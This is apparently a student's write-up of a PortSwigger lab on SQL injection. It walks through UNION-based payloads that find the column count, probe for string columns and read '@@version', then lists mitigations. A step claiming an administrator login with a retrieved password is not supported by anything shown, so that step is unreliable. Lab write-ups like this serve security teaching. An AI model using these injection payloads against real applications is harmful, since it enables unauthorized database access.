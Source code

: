 # SQL Injection - UNION Attack: querying the database type and version on MySQL and Microsoft

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,NUL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,NULL#
```
Response: HTTP/2 200 OK

The server does not like the input `--`. The`#` was accepted instead. It is similar to `--` and comments out the rest.

`--` is standard SQL single-line comment. It requires space or newline after it. `#` is MySQL-specific single-line comment. It does not require a space after.

In this case the backend server is probably MySQL. 

When the query is commented out using `--` the SQL query becomes:

```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL--'
```

If there is no space after `--`, the trailing `'` is not commented out, and this causes a syntax error (hence 500 Internal Server Error). 

A space or `+` after the standard SQL single-line comment, `--` will also work as it adds an additional space which the standard SQL single-line comment requires.

```sql
' UNION SELECT NULL,NULL--+
```

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a','a'#
```
Response: HTTP/2 200 OK

### 4. Retrieved Database Version

```sql
' UNION SELECT @@version,NULL#
```
Response: HTTP/2 200 OK

![burpsuite response](./misc-images/07-1.png)

This retrieved the version of the database.

This command will differ based on database:
* Microsoft, MySQL -  SELECT @@version
* Oracle -    SELECT * FROM v$version
* PostgreSQL -	SELECT version()

### 5. Retrieved Data from Users Table

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve multiple the version of database in MySQL.

---

## Notes

